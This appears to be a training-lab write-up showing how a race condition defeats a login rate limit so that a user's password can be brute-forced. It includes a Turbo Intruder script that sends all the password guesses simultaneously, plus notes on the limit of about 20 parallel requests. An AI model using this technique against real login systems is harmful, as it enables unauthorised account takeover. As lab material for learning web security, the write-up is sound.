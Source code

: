 # Bypassing rate limits via race conditions
# Objective
This lab's login mechanism uses rate limiting to defend against brute-force attacks. However, this can be bypassed due to a race condition.\
To solve the lab:
1. Work out how to exploit the race condition to bypass the rate limit.
2. Successfully brute-force the password for the user carlos.
3. Log in and access the admin panel.
4. Delete the user carlos.

You can log in to your account with the following credentials: wiener:peter. 

# Solution
## Analysis
After 3 incorrent login attempts account is blocked for certain number of second.
|![](Images/image-9.png)|
|:--:| 
| *Login page prevents brute-force attempts by rate limiting* |


## Exploitation
### Brute-force via race conditions
Attacker can try to exploit race conditions to bypass rate limiting. 

|![](Images/image-10.png)|
|:--:| 
| *Sending login requests in parallel - rate limiting bypass* |
|![](Images/image-11.png)|
| *Sending login requests in parallel - none of the requests was blocked* |



Turbo intruder configuration:
```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    

    # for word in open('/home/barszczyk/Tools/Wordlists/passwords.txt'):
    #     engine.queue(target.req, word.rstrip(), gate='1')

    passwords = wordlists.clipboard
    
    for password in passwords:
        engine.queue(target.req, password, gate='1')
    
    # Once every request has been queued invoke engine.openGate() to send all requests in the given gate simultaneously
    engine.openGate('1')

def handleResponse(req, interesting):
    table.add(req)
```

Maxium 20 parallel requests can be used to speed up brute-force. All requests above 20 were denied - `HTTP 400 Bad Request` - `Invalid csrf token`.

|![](Images/image-12.png)|
|:--:| 
| *Turbo intruder configuration* |
|![](Images/image-13.png)|
| *Result* |

